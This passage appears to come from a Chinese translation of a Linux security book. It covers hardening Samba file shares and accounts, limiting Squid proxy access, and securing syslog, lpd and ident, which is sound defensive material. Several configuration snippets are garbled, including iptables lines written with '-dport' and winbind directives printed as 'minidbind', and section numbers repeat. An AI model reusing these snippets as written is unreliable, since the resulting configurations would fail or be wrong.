ipchains -A output -p tcp --sport 445 -j DENY -1
ipchains -A output -p udp --sport 445 -j DENY -1
```

### IP Tables

使用 IP Tables 保护 Samba 与使用 IP Chains 非常相似。请使用 udp 重复以下操作。

```
iptables -A INPUT -p tcp -s 192.168.1.0/24 -dport 137:139 -j ACCEPT
iptables -A INPUT -p tcp -dport 137:139 -j LOG
iptables -A INPUT -p tcp -dport 137:139 -j DROP
```

```
iptables -A OUTPUT -p tcp -d 192.168.1.0/24 -sport 137:139 -j ACCEPT
iptables -A OUTPUT -p tcp -sport 137:139 -j LOG
iptables -A OUTPUT -p tcp -sport 137:139 -j DROP
```

### 3.8.11.3 机器账户

Samba 2.2.x 具备充当主域控制器（PDC）和备份域控制器（BDC）的能力，使其成为 Windows NT 的更好替代方案。早期版本可以充当 PDC，但不能充当 BDC。对于将您的系统作为辅助域控制器（ADC）的情况，您至少需要 2.2.3 版本。

有关使用随源代码分发的 Samba 手册设置 PDC 的事实不计其数；我不会去详细讲解。然而，我希望讨论机器账户，这是正确模拟域环境所必需的。“进入域字段”，从密码学角度来说。这些账户都会以“$”符号结尾。它们的名称与 Windows 网络中分配给计算机的 NetBIOS 名称相匹配。请将它们命名为 NetBIOS 主机名。

作为系统管理员，您需要记住几件事：确保这些机器账户没有登录 Shell，并且它们的密码是被禁用的，不仅仅是为了防止猜测，而是通过在密码字段中禁用“!”来实现。这些账户通常属于状态账户类别；它们并不处于活动使用状态。请密切关注它们，以防它们突然获得密码并且 UID 和 GID 变为 0，这意味着正在发生一些数字上的不当行为。在设置域时，为机器账户设置一个 UID 范围可能会很有利。如果您选择这样做，这将有助于自动化检查，例如：

> 如果用户名以“$”结尾，且 UID 小于 10,000 或大于 10,500，系统管理员应知道可能存在问题。

`smb.conf` 文件中的 `add machine script` 指令，如果启用，将允许为新进入网络的机器自动创建机器账户。如果您预留了一个范围，请务必在那里也强制执行您的范围限制。实现这一点可能需要一些精巧的编程。

## 3.8.12 Samba 文件安全

永远不要忘记，您的 Samba 系统是一个文件服务器，很可能包含机密信息。因此，至关重要的是，您必须采取适当的控制措施来限制对文件和目录的访问。如果您的服务器仅作为文件服务器使用且不授予 Shell 访问权限，那么

你的工作相对来说比较简单。几乎所有的工作都可以使用 Samba 控制来完成；然而，如果你计划允许其自身访问，例如 Telnet（不好）或 SSH（好），那么你的工作就会变得稍微困难一些。

我在这里提出的过程和机制已在许多不同环境中进行过测试，并发现其具有足够的安全性，既能阻挡闲杂人员（riff-raff），又能让普通用户执行他们所需的工作，无论是通过他们的 Windows 计算机还是 shell 账户。这可能也适用于你。使用安全环（Rings of Security），我们将文件系统作为起点。这些技术适用于任何 Posix 文件系统（ext2、ext3、reiserfs、XFS、JFS 等）。

这里有一个关于用户的快速说明。当我设置系统时，每个用户都有一个共同的主组。这是我的用户组，其 GID 为 100。它大致相当于 NetWare 的“Everyone”组。这使得在公共共享中设置权限变得更加容易。当使用像 Red Hat 这样的发行版时，默认情况下每个用户都有自己的主组，我会创建一个 users 组并将所有人添加为成员。结果是一样的，但让所有人的主组为“users”更容易管理。

### 3.8.12 共享的文件和目录掩码

在设置通过 Samba 共享的共享时，首先切勿共享根目录。如果你这样做，就是在自找麻烦。通常我会将 `/home` 目录放在一个单独的分卷上，这样网络用户就不能用他们最新的 MP3 文件集合填满根分卷。我所有的 Samba 共享都指向 `/home/samba` 目录。

Samba 共享通常有两种类型。一种是你希望允许所有人访问；另一种则是我们在这里通过两个分别称为“public”和“private”的共享来进行演练。随后讨论的技术可以根据你的特定应用进行调整。


现在我们将创建这两个目录。

```bash
mkdir /home/samba/public
mkdir /home/samba/private
```

现在，将 `public` 目录的模式改为 `2775`。将 `private` 目录的模式改为 `2270`。将 `public` 目录的组从 `root` 更改为“users”。使用 `groupadd` 命令添加一个名为“private”的组。最后，将 `private` 目录的组（`chgrp`）更改为“private”。

为什么这样做？对该目录的所有访问权限都将使用组权限。由于我们计划拥有一个来宾账户，因此对来宾用户而言，`public` 目录将是只读的，而 `private` 目录将是不可访问的。两个目录上的组权限对于允许的用户读取和写入文件来说是足够的。

这两个目录都设置了粘滞位（sticky bit），以更好地模拟 Windows NT 服务器的默认行为。当用户创建文件时，其 UID 和 GID 将导致每个新文件都创建为属于 `users` 组。默认的掩码 `022` 将防止其他人对其进行修改。粘滞位会导致文件以默认文件组为“users”组的方式创建。因此，当文件所有者选择允许其他人修改其创建的文件时，组是合适的。这是一种强制组继承的方法。

例如：

用户 Larry 创建了一个名为 `Customer_Proposal.doc` 的文档。文件所有者是 Larry，组是“users”（得益于粘滞位）。Bob 现在想要读取和修改该文件。文件的默认权限是 `755`。Bob 将能够读取该文件，但不能修改它。这接近 Windows 的默认行为，但 [他] 需要修改文件的权限，所以在这个阶段，虽然接近，但还不足以达到 Windows 的默认行为。

为了解决示例中描述的问题，你可以将“create mode”选项设为 `0775`。这将允许设置组权限。在处理私有共享时，你希望“create mode”更具限制性，不允许文件内容 [被所有人读/写]。通过将 `create mode` 设置为 `0771` 来实现这一点。我会进一步解释关于供你使用的“真实访问控制列表”（Real Access Control Lists）的内容。

所以，就是这样。我们此时已使用 Samba 和 Linux，以及一些明智的设置，模拟了 NT 的默认行为。我为你附上了一些 `smb.conf` 片段供你使用。

```ini
[public]
path = /home/samba/public
public = yes
writable = yes
directory mask = 0775
# 如果你没有共同的主组，这是必要的
create mask = 0775
hide dot files = true
```

```ini
[private]
path = /home/samba/private
public = no
writable = yes
directory mask = 0771
create mask = 0771
hide dot files = true
# 请参阅下方章节以了解这些参数的说明
force group = @private
valid users = @private, bob, larry, mark, dave
write list = bob, larry
read list = mark, dave
```

### 3.8.12.2 共享附加权限列表

在公共共享中，`public = everyone` 意味着所有人都可以访问。权限通常比较宽松，允许文件自由交换。在私有共享中，访问受到控制，你需要指定谁可以访问以及谁不能访问。这是通过设置 `public = no` 然后使用 `valid users` 列表来实现的。

在上面的私有共享示例中，我们有一个包含 `bob`、`larry`、`mark` 和 `dave` 的 `valid users` 列表。只有这些账户才能附加到私有共享。也许这些人正在一起进行一个项目，公司里的其他人不需要访问存储在该私有共享上的项目文件。或者，这可能类似于你的会计部门，他们需要将其数据存储在服务器上进行备份，但我们需要将其他人拒之门外。`valid users` 列表就是实现这一点的机制。

那么，在 Linux 系统层面正在发生什么？该目录是私有的，我们在 `/etc/group` 中创建了 `private` 组。现在，编辑 `/etc/group`，并使用用户 `bob`、`larry`、`mark` 和 `dave` [来] 编辑该组，将其加入。完成后，组行将看起来像这样。

```text
private::30000:bob, larry, mark, dave
```

GID 并不重要。我只是选了一个不常见的数字。如果你选择使用它，`groupadd` 命令会自动创建它。

现在，如果我们使用 `bob`、`larry`、`mark` 和 `dave` 想要访问 `private` 目录中的数据，他们既可以通过 Samba 也可以通过他们的 shell 账户来访问。`/home/samba/private` 的目录权限是 `770`，因此任何不是 `private` 组成员的人将无法进入该目录，数据保持安全。

### 3.8.12 共享的读写列表

Samba 对用户权限的控制比 Posix 通常提供的要精细得多。在私有共享的示例中，`bob` 和 `larry` [拥有] 读写权限，而 `mark` 和 `dave` 只有只读权限。这是通过使用以下指令实现的：

```ini
write list = bob, larry
read list = mark, dave
```

这些通常工作得相当好，直到 `mark` 和 `dave` 使用 SSH 登录为止。因为他们是 `private` 组的成员，他们现在在 `private` 目录中拥有写入权限，而通过 Samba 他们原本只能读取。这是支持使用真实访问控制列表（ACL）的强有力论据，详见第 169 页的“真实访问控制列表”。

如果你不允许普通用户访问你的 Samba 服务器，那么读列表和写列表完全有能力强制实施你想要的级别的安全。

### 3.8.14 伪访问控制列表

我正在描述的整个过程可以被定义为 Posix 访问控制列表。每个私有共享资源都有其自己的组。只有组内的成员才能通过 Samba 或其他方法获得对共享目录的访问权。不在组内的成员没有访问权。当你想要说“在这些共享目录中，`bob` 和 `larry` 可以写入，而 `mark` 和 `dave` 只能读取”或者“`larry` 和 `bob` 可以写入此文件，但 `mark` 和 `dave` 不可以”时，它们工作得相当好。如果不使用专门的组，Posix 权限的粒度不足以实现这一点。其他的漏洞包括使用 shell 账户以及集成其他服务，如 NFS 或 AppleTalk（你可能也希望在你的服务器上使用这些服务）。

### 3.8.12 真实访问控制列表

在 Linux 上是有可能实现真实访问控制组的。你只需要愿意稍微偏离常规路线。截至本书撰写时，有一个正在标准化 Posix 访问控制列表（ACLs）的努力。原因是什么？目前有几种竞争的方法可以实现真实访问控制组的目标。一种是由 Bestbits（`acl.bestbits.at`）提供的补丁，适用于 `ext2` 和 `ext3` 文件系统。另一种是由 SGI（`oss.sgi.com`）提供的 XFS 文件系统。这些方法各有优劣。

- **Bestbits 的优点：** 如果你已经拥有一个基于 `ext2` 或 `ext3` 文件系统（大多数情况如此）的正常运行的 Samba 服务器，这是一个相对容易的附加组件。你下载补丁，修补你的内核并重新编译。你不需要改变所有的文件、用户等。

- **XFS 的优点：** 如果你从零开始设置一个新的 Samba 服务器，使用 XFS 文件系统可以保护用户数据，因为它是一个成熟的日志文件系统，成千上万的高端服务器都在运行它。另一个优点是 SGI 提供了带有已设置好并可供使用的 XFS 的 Red Hat CD-ROM 版本。此外，还有一个可用的补丁，可以扩展 XFS 和 Samba 以使用所有的 Windows NT 权限。请查看 XFS 邮件列表以获取指向该补丁的链接。

使用 BestBits 或 XFS 时，在使用此功能之前，需要使用 `with-acl-support` 选项重新编译 Samba。各自的页面和 HOWTO 将为你提供每种方法创建、修改和删除 ACL 的正确语法。在这种情况下，你还需要修改你的备份程序，以便在系统崩溃时能够备份和恢复 ACL。Samba 有一个名为 `fsdump` 的工具。我还见过其他技术，即在备份标准工具 `tar` 和 `cpio` 可以使用之前，将所有的 ACL 列举并存储在一个特殊文件中。

### 3.8.126 主目录

Samba 默认具有共享用户主目录的功能。为了确保对用户主目录的最高级别保护，你需要确保权限为 `700` 且不再开放。然后，在特殊的 "homes" 共享中，确保该共享不是公开可访问或可浏览的，并且它有一个仅包含该用户的 `valid user` 列表。Posix 权限 `700` 将确保如果 Samba 放过了一个无效用户，该用户将没有任何权限。然而，我从未见过 Samba 犯这种错误。

## 3.8.13 用户安全

在 Samba 下允许三种类型的用户访问。第一种是共享级别。我没有找到太多使用它的理由，如果你需要它，我建议你参考 Samba 文档。此设置的参数是：


```ini
[global]
  security = share
```

第二种，也是对于独立 Samba 服务器最常见的，是用户级别的安全。概括地说，所有对共享资源的权限都是基于每个账户授予的，并且账户数据库是 `/etc/passwd` 和 `smbpasswd` 这对文件。

# 3.8 玩转 Samba

## 3.8.13 身份验证方法

第三种方法是在 NT 域控制器上存储用户密码。这允许 Samba 服务器作为域中的一个常规文件服务器运行，并允许客户端登录到该域。这并不意味着 `/etc/passwd` 不再被使用，只是说用户账户（passwd 等）信息现在存储在了域控制器中，而不是存储在 `smbpasswd` 数据文件中。

```ini
[global]
security = domain
```

或者

```ini
[global]
security = server
```

使用 `winbind` 守护程序和 LDAP 将 Samba 服务器集成到你的环境中还有另外两种方式。我将在后面讨论这些内容。这些方法涉及替换 `/etc/passwd` 和 `smbpasswd` 文件，并对 `nss switch` 进行一些“取巧”的操作。

### 3.8.13.1 用户账户

每个连接到 Samba 服务器的用户都必须拥有一个用户账户。永远不要忘记，Samba 底层是一个 UNIX 系统，Linux 的访问规则为 Samba 提供了基础。提供用户账户有很多方式，包括 `/etc/passwd`、`NIS`、`winbind` 和 `LDAP`。

#### 3.8.13.1.1 本地身份验证

这是所有身份验证方法中最简单的一种。在我使用过的热门发行版中，都有一个默认的 Samba 配置文件，该配置使用 `/etc/passwd` 和 `/etc/group` 来跟踪用户账户。Windows 加密密码存储在 `smbpasswd` 文件中。在 Red Hat 中，这是 `/etc/samba/smbpasswd`。

每个需要访问 Samba 服务器的用户都需要在 `/etc/passwd` 中拥有一个账户，可以使用 `useradd [options] username` 添加。要创建必要的 `smbpasswd` 条目，需要运行以下命令：

```
smbpasswd -a username
```

一个例子如下：

```
useradd -g users -d /dev/null -s /dev/null -n -u 500 bob
smbpasswd -a bob
```

这是你可以创建的最安全的用户账户（我认为）。没有主目录，也没有默认 shell。该用户只能访问 SysAdmin 允许其访问的 Samba 共享。

如果你希望为用户设置主目录，请将 `-d` 参数更改为 `/home/bob`，并确保主目录的权限为 `700`。

在此配置中，你希望 `nsswitch.conf` 文件如下所示：

```
passwd: files
shadow: files
group: files
```

这样，用户账户就只能在本地机器上存储在一个地方。

如果你只有一台 Samba 服务器，那么设置用户账户的最安全方式就是这种方式。如果你有多个 Samba 服务器，或者需要将用户账户与其他机器同步，你可以使用这种方法，但作为系统管理员，你需要手动负责保持文件同步。在这里，你可以使用 `rsync` 等工具来保持多个 Samba 服务器账户的同步，但这可能会带来问题，并且在更新传播之前总会存在延迟，此外还有竞争条件问题。下文描述的方法将有助于缓解这一问题，并更容易地在多台机器之间共享一组通用的用户账户。

### 3.8.13.2 NIS 和 NIS+

`NIS` 和 `NIS+` 是 UNIX 中跨多台机器同步账户的标准。`NIS` 使用一台指定的主服务器，网络上的其他主机从中拉取用户账户数据。它非常有效，但由于使用了不安全的协议（因为 RPC 运行在 UDP 上），所以存在安全问题。有一个网站展示了如何安全地运行 `NIS+`，以及如何让 `NIS` 安全运行。你可以在 `www.linux-nis.org` 找到它。

使用 `NIS` 时，你仍然需要一个 `smbpasswd` 文件。作为系统管理员，如果 `NIS` 映射文件中有很多用户，这可能是一项繁重的工作。如果你既是 `NIS` 管理员又是 Samba 管理员，请确保在添加和删除 `NIS` 映射文件中的用户时，也对 `smbpasswd` 文件做出相应的更改。如果你有多台机器，那么处理这些 `smbpasswd` 文件的工作量会很大。你可能希望使用 `perl` 脚本来查找 `NIS` 数据库和 `smbpasswd` 文件之间的差异，并自动处理它们。

由于 `NIS` 存在安全弱点，你需要使用 `IP Chains` 或 `IP Tables` 来定义网络中哪些计算机可以访问本地 `portmap` 守护程序。然而，由于 `portmap` (`RPC`) 使用 UDP，且容易被欺骗，这将只提供部分安全性。请仔细检查并双重检查，确保 `portmap` 守护程序被防火墙阻止，以防止该历史上存在漏洞的服务被利用。`Portmap` 运行在 TCP 和 UDP 端口 `111` 上。

### 3.8.13.3 winbind

`winbind` 守护程序是 2.2 系列中的新增强功能，并在 2.2.3 版本中成为标准分发的一部分。它允许 Windows 域控制器充当 `/etc/passwd` 和 `/etc/group` 文件的作用。

需要在 `smb.conf` 文件中放置一些指令才能启用此行为。此外，在启动 Samba 之前，你需要先启动 `winbind` 守护程序。

```ini
[global]
minidbind uid = 1000-24999
minidbind gid = 25000-29999
security = domain
password server = Primary Domain Controller, Backup Domain Controller(s)
```

这两个指令控制分配给域控制器上账户的 UID 和 GID。如果你试图将 `NIS(+)` 与 `winbind` 一起使用，请非常确保你为 `winbind` 指定的范围不会与 `NIS` 树中分配的 UID 和 GID 发生冲突。如果发生冲突，你将得到奇怪的结果并破坏你的安全模型。

如果你计划在使用 `winbind` 的同时在 Linux 机器上允许主目录，你需要在用户登录之前负责创建它们。全局部分中的 `template homedir` 指令提供了一种自动确定用户主目录位置的方法。此外，如果你计划使用 `winbind`，默认的登录 shell 是 `/bin/false`。如果你的 Windows 用户有任何理由通过 Telnet 或 SSH（SSH 更受青睐）登录到 Linux 机器，你需要更改 `logon script` 参数。

要启用 `winbind` 的使用，你需要修改 `/etc/nsswitch.conf` 文件，使其类似于以下内容：

```
passwd: files winbind
group: files winbind
```

在这个顺序下，本地用户将优先于域控制器上同名的用户。如果你希望域账户优先于本地账户，只需反转 `files` 和 `winbind` 的顺序即可。

关于在多台 Samba 服务器上运行 `winbind` 守护程序的另一个考虑因素是，如果你以完全相同的方式配置它们，域账户的 Linux UID 和 GID 几乎可以保证不匹配。示例：我们有两台 Samba 服务器，`SAMBA1` 和 `SAMBA2`。两台都运行 `winbind` 守护程序并针对 `NTPDC` 进行身份验证。`Larry` 在域控制器上有一个账户。在 `SAMBA1` 上，他的 Linux UID = `1000`，而在 `SAMBA2` 上，他的 Linux UID = `1547`。我还没有想出任何自动修复这个问题的方法。如果你试图将 `winbind` 与其他协议一起使用，特别是 `NFS`，这将是一个真正的问题，因为 `NFS` 要求不同 Linux 计算机之间的 UID 和 GID 同步以确保良好的文件质量。

使用 `winbind` 建立用户账户时的另一个问题也值得在此指出。进入 Windows 计算机比进入受保护的 Linux 计算机容易得多。在使用 Windows 机器为 Linux 机器提供用户账户时请考虑这一点。如果使用 `winbind`，我的建议是不为任何由域控制器提供的账户设置默认 shell。

Windows 域账户名称与其 UID 之间的关联存储在 `/var/lock/samba`（或你指定的其他位置）目录中。同样，Windows 域组、其 Linux GID 及其成员列表之间的关联也由数据库文件控制和缓存。缓存对于应对潜在的网络故障和微软传奇般的可靠性是必要的。

### 3.8.13.4 LDAP


LDAP 是另一种集中存储用户数据的方式。有几种可用的 LDAP 服务器，其中一种是 OpenLDAP (`www.openldap.org`)。Samba 可以使用 LDAP 服务器来存储通常存储在 `smbpasswd` 文件中的用户账户信息。当与来自 `padl.com` 的一些软件以及 `nsswitch` 文件的更改结合使用时，Linux 机器可以在整个企业中共享 UNIX UID 和 Windows SID。这通过扩展标准的 Posix LDAP 模式以包含 Windows 加密密码和 SID 来实现。

使用 LDAP 时，你希望使用以下选项：

```
[global]
security = user
ldap admin dn = ldapadmin # 或者你选择的任何值
ldap server = ldap.yourdomain # 或者 localhost 或 ...
password server = # 没有密码服务器
```

截至 2.2.3 版本，LDAP 接口被认为稳定且可安全使用。使用 LDAP 服务器的一个巨大优点是，使用 unbound 时，Linux UID 在机器之间将保持一致，使得可以在相同的群服务器上同时使用 Samba 和 NFS，并在所有服务器上执行统一的安全模型。当你超越当前的 Samba 服务器时，你可以简单地添加另一台并重新使用所有用户账户、UID 和 Windows 信息（SID、密码等）。

### 3.8.13.5 登录服务

Samba 具有存储用户配置文件和登录脚本的能力。这些是 DOS 格式的脚本和信息，如果允许不受信任的用户访问，可能会遭到破坏。想象一下，一个恶意用户向登录脚本中添加一条命令，以连接他的本地机器并安装恶意程序。请保持这些安全，并仅允许需要修改它们的人访问。至少将它们设置为除 root 外的其他用户只读。

## 3.8.14 Samba 管理安全

`Swat` 是一个很好的工具，但我从未找到使用它的理由。一旦 Samba 服务器设置好，它通常不需要系统管理员的持续关注。因此，没有必要让超级服务器在特定端口（通常是 901）上监听，以便系统管理员或黑客尝试入侵。

如果你决定使用 `swat`，请限制其实例的启动方式及其可访问的来源。并且，如果有人试图访问它，请通过记录日志来跟踪访问者的身份。一个典型的受保护的 `xinetd` 文件看起来像这样：

```
service swat {
port = 901
socket_type = stream
wait = no
only_from = 192.168.1.100
}
```

### 3.8.15 使用 SSH 配合 Samba

以下配置示例展示了 `swat` 的初始化设置：

```
user = root
server = /usr/sbin/swat
log_on_failure += USERID
instances = 1
# if you have multiple NICs, or absolutely must
# run on it a firewall, use the "inside" address
bind = 192.168.1.1
disable = no
```

如果希望使用 SSL 隧道进行管理，可以修改 `server` 字符串如下：

```
server = /usr/sbin/stunnel
server_args = -p SCERTIFICATE_PATH -1 /usr/sbin/swat
```

请查阅用户文档以获取关于如何为 `swat` 创建证书的说明。

在多年的 Samba 系统管理经历中，我从未使用过 `swat`。在进行添加用户等操作时，`SSH` 是我管理该服务器首选方法。我会按日期备份配置文件，以便在发现问题时，能够轻松回滚到之前的配置。你可能会发现修订控制系统 (`RCS`) 非常适合这种用途。

大多数时候，我只是在添加用户和机器账户，并分配资源访问权限。由于我总是将 Samba 与多种文件协议（通常是 NFS）一起运行，我必须将这些用户添加到 UNIX 系统中，同时完成 Samba 所需的工作，因此 `swat` 对我来说价值不大。请把这看作是一个疯狂之人的胡言乱语，他使用 `SSH` 的原因就像他驾驶手动挡汽车一样：“我掌控着一切。” 胡言乱语模式 = 关闭。

Samba 能够使用 SSL 进行网络通信。然而，我看到的文档，包括随源代码分发的《Using Samba》一书，都谈论使用 Samba 的 SSL 功能作为代理通过互联网建立隧道。随着虚拟专用网络 (`VPN`) 的广泛使用，这种方案成为了 VPN 的劣势。如果你需要连接远处的 Samba 服务器，使用 VPN 可能比在服务器之间设置 Samba SSL 隧道更好且更灵活的选择。

你可以使用本书中涵盖的 VPN 技术，包括 Free/SWAN，或者不使用 Linux 的基于硬件的解决方案。市面上有一些非常好的解决方案。如果你仍然希望使用 SSL，请参见《Using Samba》一书，因为那里有详细说明。它应该随你的发行版提供。在 Red Hat 系统中，文档位于 `samba-swat` RPM 或 `samba` RPM 中。


## 3.9 阻止 Squid 留下痕迹

### 危险等级

`Squid` 是一个流行的免费源码 Web 代理缓存。它允许系统缓存 HTTP、FTP、Gopher 和相关的 DNS 条目，并支持使用 HTTPS 的代理。`Squid` 可以显著降低网络的 Internet 带宽需求，同时通过缓存经常访问的网页来提高性能。它是通过缓存（临时存储）用户经常访问的网页来做到这一点的。

默认情况下，`Squid` 允许世界上的任何人将浏览器指向它并发起请求。一些发行版现在包含它但没有访问限制以防止这种情况；Red Hat 就是这样一个发行版。对 Web 服务器的请求将显示为来自 `Squid`，而不是实际用户。这给你带来了两个问题：如果 "squatter" 设置为 no，Web 服务器的日志将指向你的系统。这可能导致你的 ISP 首先关闭你的 Internet 连接并询问详情。

这也可能导致执法部门（拿枪的人）上门访问，并给你带来一些你不想拥有的 publicity。此外，每次请求都会使用你的带宽两次。虽然 `Squid` 可以传递有关谁似乎发起请求的信息，但黑客可以伪造其源地址或使用被入侵的系统，而 `Squid` 的“我是为这家伙做的”在仅报告 IP 地址的低级别数据包跟踪中并不显示。解决方案是利用 `Squid` 的配置行中的一些规则来限制哪些系统将接受客户端请求。在一些安装中，此文件位于 `/usr/local/squid/etc` 目录下。

```
/etc/squid/squid.conf
```

你还可以实施规则来限制其允许连接到的 Web 服务器，它也会对 URL 进行一些内容过滤。`Squid` FAQ（常见问题解答）提供了一些过滤规则的链接，这些规则可以通过匹配成人内容的单词来阻止许多成人站点。许多这些成人站点反过来通过使用 HTTP 的 "%% 十六进制编码来绕过这一点，其中百分号后跟两个表示 URL 中每个字符的 ASCII 值的十六进制数字。一种解决方案是使用内容过滤来阻止包含 "" 字符的 URL。更好的解决方案是增强 `Squid`，在执行非法 URL 的模式匹配之前先对这些序列进行 "unhex"。

在你的防火墙中设置一条规则，仅允许 `Squid` 访问组织外部的 80 (http) 和 443 (https) 端口，将阻止用户绕过你的 `Squid` 规则。

- 4. `Squid` Web 网站是 `www.squid-cache.org/`，你可以在那里下载源代码和文档。

对于更强大的内容过滤，请安装 `Squidguard`，它与 `Squid` 配合工作。它可在 `www.squidguard.org/` 获取。

`/etc/squid/squid.conf` 中的以下条目将仅允许 IP 地址为 216.247.56.62 和 216.247.56.63 的系统使用 `Squid`。

```
acl OK src 216.247.56.62 216.247.56.63
http_access allow OK
http_access deny all
```

请注意，`acl` 的所有组件都是 OR 连接的，而 `access` 条目的所有条目都是 AND 连接的。因此，你不希望在 `access` 行上列出所有主机（因为不相交集的 AND 是空集）。

与防火墙相关产品类似，`Squid` 允许你指定要测试的地址位数，以便使用单条规则匹配你的网络或子网，就像防火墙和 TCP Wrappers 一样。当请求到来时，程序从上到下解析内存中的配置文件副本，直到找到第一条匹配的规则（允许或拒绝请求），并且只有该规则决定操作。

以下内容将允许 B 类网络 216.247.0.0/16：

```
acl OK src 216.247.0.0/255.255.0.0
acl all src 0.0.0.0/0.0.0.0
http_access allow OK
http_access deny all
```


如果你有防火墙，从外部网络阻止对 `Squid` 端口的访问将解决问题。但是，同样阻止来自 `Squid` 本身的防火墙地址将有助于防止内部网络中拥有未授权地址且动机不良的人造成的麻烦。请记住，你应该有“安全圈”的概念：保护其网络免受 Internet 侵害的每个人都有责任保护 Internet 免受源自其内部网络的问题。

`Squid` 的默认地址是 TCP 端口 `3128`。请注意，2000 年春季，针对端口 `3128` 的扫描网络数量有所增加，明显是在寻找这种漏洞。如果你没有防火墙阻止此端口，那么让黑客绕过默认端口变得容易确实没有理由，除了这允许 `Netscape` 进行半自动配置外。考虑选择其他端口。除了 `http`，`Squid` 还支持 `https`、`FTP`、`Gopher`、`WAIS` 和 `snews`（基于 SSL 的网络新闻传输协议）端口。

注意，`Squid` 作为守护进程运行，而不是由 `inetd` 调用，因此你不能使用 TCP Wrappers 来控制哪些系统可以访问它。

由于每个 URL 和 URL 内每个图像的下载都通过单独的 TCP 连接，如果让 `Squid` 通过 `inetd` 调用而不是作为守护进程，它将每秒分叉数十次或数百次。这将是对资源的实际浪费。此外，作为守护进程运行使其能够在内存中缓冲最流行的页面，从而进一步提高性能并减少所需资源（磁盘）。

由于 `Squid` 是开源的，我认为添加对 `libwrap` 的支持应该很容易。给完成此项工作并提交给 `Squid` 团队进行集成的人一颗金星。

此外，你可以控制 `Squid` 将连接到的端口。默认情况下，它使用以下规则：

```
acl Safe_ports port 80 21 443 563 70 210 1025-65535
http_access deny !Safe_ports
```

请注意，这排除了 `25` (`SMTP`)，这是 `sendmail` 使用的端口。这是为了防止有人使用 `Squid` 作为垃圾邮件中继。这允许表 3.3 中显示的服务。

这有什么错？其哲学是禁止“危险”服务，如邮件（用于垃圾邮件中继）和 `echo`（用于发起 DoS 攻击），从保留端口 `0` 到 `1023` 中，并允许 `1024-65535`。除了明显的 off-by-one 错误外，`1023` 以上有很多危险端口。

### 表 3.3 Squid 默认允许的服务

| 端口 | 服务 |
|---|---|
| 80 | http |
| 21 | ftp |
| 443 | https |
| 563 | news (NNTP over SSL) |
| 70 | Gopher |
| 210 | WAIS |
| 1025-65535 | "Dynamic and Private" |

- `5.` TCP Wrappers 通常作为程序 `tcpd` 运行，由 `inetd` 调用。这是通过在 `/etc/inetd.conf` 中指定 `tcpd` 的完整路径名作为提供服务的程序来完成的。由于这对守护进程不起作用（守护进程不是从 `inetd` 启动的），创建了 `libwrap` 库。可以通过对源代码进行简单修改来调用 `libwrap` 以决定是否授予请求，从而为任何守护进程（或其他程序）添加对 TCP Wrappers 的支持。

- `6.` 有关垃圾邮件的更多详细信息，请参见第 133 页的“Drop-Shipping Spam (Relaying Spam)”。

该范围内的多个端口被特洛伊木马黑客使用，这些木马会被入侵者在被攻陷的系统中安装。你真的希望下一次登上国家新闻头条的DDoS攻击能追溯到你的系统吗？

我的建议是以下列配置开始：

```
acl Safe_ports port 80 21 443 563 70 210
http_access deny !Safe_ports
```

这将允许你提出允许其他端口的合理理由。请参阅CD-ROM上列出的最常见默认入侵者端口列表，如`ports`程序源代码中所述。

## 3.10 syslog 服务


`syslog`机制被许多守护进程和内核用于记录错误消息和建议消息。它具有通过UDP端口`514`接受来自远程系统消息的功能。这是一种从多个系统整合消息，然后只需扫描和审查一个日志文件的便捷方法。最近版本的`syslog`需要`-r`标志来启用监听UDP端口`514`，以记录来自远程系统的消息。这是一项受欢迎的增强安全性的改进，使得不使用此功能的大多数系统能够抵御入侵者向此端口发送攻击。

远程日志记录功能可以通过远程记录系统活动来提高安全性。因此，如果一个系统被攻陷且所有日志文件被销毁，你仍然在远程系统上拥有这些数据，假设远程系统没有被同时攻陷。通过让一个支持最少服务的特殊“高安全性”系统（以减少被攻陷的可能性）来处理日志记录，可以将所有日志被销毁的可能性降至最低。这将在第343页的“监控系统”中讨论。

然而，UDP数据包欺骗确实存在。幸运的是，现代版本的`syslog`（v1.3，早在Hat 6.0中就被注意到）除非配置，否则不会监控UDP端口。有些漏洞利用可以通过反复向`syslog`发送数据包来导致拒绝服务（DoS），从而拒绝合法客户端访问，或由于记录消息量大而占满空间。偶尔，入侵者会向互联网上可访问此端口的各种系统写入伪造的日志消息。

可能存在获取root权限的方法，虽然希望在你读到这篇文章时这些方法已被修复，假设你拥有最新的`syslog`。当然，一些入侵者会欺骗他们的UDP源IP，这很简单，然后发送消息。这些消息将被记录，肯定会让你困惑。它们可能会包含他们放置的任何文本，从而错误地指示入侵事件。

明确的解决方案是让你的防火墙阻止来自受信任网络之外站点对此端口的访问。

除非你真的需要，否则不要使用`syslogd -r`，并确保防火墙阻止对UDP端口`514`的访问。`nsyslog`程序是`syslog`的替代品，提供SSL封装的TCP连接以提高安全性。可从以下地址下载：

```
http://coombs.anu.edu.au/~avalon/nyslog.html
```

## 3.11 打印服务 (lpd)


标准Linux的`lpd`程序监听TCP端口`515`，以接收远程打印作业请求。其安全模式是基于`rsh`及其相关程序中存在的有缺陷的R*安全模型，这在第146页的“`rsh`, `rcp`, `rexec` 和 `login` 服务”中有所讨论。`lpd`将接受`/etc/hosts.equiv`和`/etc/hosts.allow`中指定的系统和用户的作业。强烈建议防火墙阻止所有不受信任的系统访问此端口。一种较弱的替代方法是编辑`/etc/services`，或调用`lpd`时使用替代端口号，这样入侵者更不太可能检测到并攻击该端口。

当`lpd`启动时，端口号在命令行上以简单数字形式指定（无破折号）。如果可能的话（本地或远程），建议以`-f`标志启动`lpd`，以便通过`syslogd`记录请求。由于2001年初大量因Red Hat bug导致的攻陷事件，以及入侵者继续频繁攻击此端口，危险等级在第二版中有所提高。

## 3.12 ident 服务


`ident`服务通过`ident`程序运行，该程序可以作为守护进程运行，或由`inetd`启动。当某人使用客户端程序（如`Netscape`、`telnet`或`FTP`）从你的系统连接到远程系统上的服务器时，该远程系统只知道你系统的IP地址以及哪个端口号发起了连接。`ident`系统无法知道你的系统中哪个用户已连接，甚至无法知道他们是否欺骗了你的IP地址。如果你的某个用户制造了麻烦，该远程系统无法确定是哪个用户造成的，也无法向你报告该用户。`ident`服务通过告知远程系统哪个用户拥有此端口号来回答这些问题。`identd`服务器也可以配置为记录这些查询，以便后续分析。

